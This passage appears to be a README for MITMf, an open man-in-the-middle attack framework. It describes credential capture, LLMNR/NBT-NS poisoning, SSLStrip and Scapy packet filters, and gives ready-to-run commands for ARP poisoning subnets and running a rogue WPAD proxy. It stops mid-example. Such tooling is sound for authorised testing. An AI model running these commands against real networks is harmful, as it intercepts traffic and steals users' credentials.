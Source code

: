 Originally built to address the significant shortcomings of other tools (e.g Ettercap, Mallory), it's been almost completely 
re-written from scratch to provide a modular and easily extendible framework that anyone can use to implement their own MITM attack.

Features
========

- The framework contains a built-in SMB, HTTP and DNS server that can be controlled and used by the various plugins, it also contains a modified version of the SSLStrip proxy that allows for HTTP modification and a partial HSTS bypass.

- As of version 0.9.8, MITMf supports active packet filtering and manipulation (basically what etterfilters did, only better),
allowing users to modify any type of traffic or protocol.

- The configuration file can be edited on-the-fly while MITMf is running, the changes will be passed down through the framework: this allows you to tweak settings of plugins and servers while performing an attack.

- MITMf will capture FTP, IRC, POP, IMAP, Telnet, SMTP, SNMP (community strings), NTLMv1/v2 (all supported protocols like HTTP, SMB, LDAP etc.) and Kerberos credentials by using [Net-Creds](https://github.com/DanMcInerney/net-creds), which is run on startup.

- [Responder](https://github.com/SpiderLabs/Responder) integration allows for LLMNR, NBT-NS and MDNS poisoning and WPAD rogue server support.

Active packet filtering/modification
====================================

You can now modify any packet/protocol that gets intercepted by MITMf using Scapy! (no more etterfilters! yay!)

For example, here's a stupid little filter that just changes the destination IP address of ICMP packets:

```python
if packet.haslayer(ICMP):
	log.info('Got an ICMP packet!')
	packet.dst = '192.168.1.0'
```

- Use the ```packet``` variable to access the packet in a Scapy compatible format
- Use the ```data``` variable to access the raw packet data

Now to use the filter all we need to do is: ```python mitmf.py -F ~/filter.py```

You will probably want to combine that with the **Spoof** plugin to actually intercept packets from someone else ;)

**Note**: you can modify filters on-the-fly without restarting MITMf! 

Examples
========

The most basic usage, starts the HTTP proxy SMB,DNS,HTTP servers and Net-Creds on interface enp3s0:

```python mitmf.py -i enp3s0```

ARP poison the whole subnet with the gateway at 192.168.1.1 using the **Spoof** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1```

Same as above + a WPAD rogue proxy server using the **Responder** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --responder --wpad```

ARP poison 192.168.1.16-45 and 192.168.0.1/24 with the gateway at 192.168.1.1:

```python mitmf.py -i enp3s0 --spoof --arp --target 192.168.2.16-45,192.168.0.1/24 --gateway 192.168.1.1```

Enable DNS spoofing while ARP poisoning (Domains to spoof are pulled from the config file):
```